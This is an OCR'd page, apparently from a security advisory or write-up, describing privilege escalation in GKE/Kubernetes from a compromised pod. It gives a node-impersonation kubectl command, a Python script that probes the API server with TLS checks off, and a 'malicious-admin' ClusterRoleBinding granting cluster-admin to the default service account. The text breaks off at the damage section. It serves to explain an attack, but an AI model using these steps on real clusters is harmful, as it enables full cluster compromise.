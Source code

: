 ```bash
# From within a compromised pod
kubectl auth can-i --list --as=system:node:$(hostname)
```

### Step 2: Permission Enumeration

```python
import requests
import json

def enumerate_permissions(token, api_server):
    headers = {'Authorization': f'Bearer {token}'}
    
    # Check system:nodes permissions
    response = requests.get(
        f'{api_server}/api/v1/nodes',
        headers=headers,
        verify=False
    )
    
    return response.status_code == 200
```

### Step 3: Privilege Escalation

```yaml
# Create malicious ClusterRoleBinding
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: malicious-admin
subjects:
- kind: ServiceAccount
  name: default
  namespace: default
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

## Impact Assessment

### Affected Environments

- **GKE Clusters**: All versions prior to 1.24.8
- **Multi-tenant Environments**: Particularly vulnerable
- **CI/CD Pipelines**: Automated deployments at risk

### Potential Damage
